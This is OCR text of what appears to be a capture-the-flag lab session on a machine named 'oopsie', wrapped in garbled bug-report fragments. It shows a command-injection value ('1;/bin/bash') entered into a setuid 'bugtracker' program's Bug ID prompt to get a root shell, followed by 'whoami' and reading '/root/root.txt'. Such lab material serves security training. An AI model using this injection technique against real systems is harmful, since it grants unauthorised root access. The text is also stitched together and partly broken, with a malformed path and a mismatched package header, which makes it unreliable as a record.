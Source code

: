 Provide Bug ID: 1;/bin/bash
1;/bin/bash
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
n$ /usr/bin/bugtrackerhtml/cdn-cgi/login
bash: obert@oopsie:/var/www/html/cdn-cgi/login$: No such file or directory
root@oopsie:/var/www/html/cdn-cgi/login# /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ---------------

cat: /root/reports/------------------: No such file or directory

root@oopsie:/var/www/html/cdn-cgi/login# 


root@oopsie:/var/www/html/cdn-cgi/login# whoami
whoami
root
root@oopsie:/var/www/html/cdn-cgi/login# ls /root     
ls /root
reports  root.txt
root@oopsie:/var/www/html/cdn-cgi/login# cat /root/root.txt
cat /root/root.txt
af13b0bee69f8a877c3faf667f7beacf              <<<<<<<<<<<<<<<<<<<<<<<<<<<<<
root@oopsie:/var/www/html/cdn-cgi/login# 
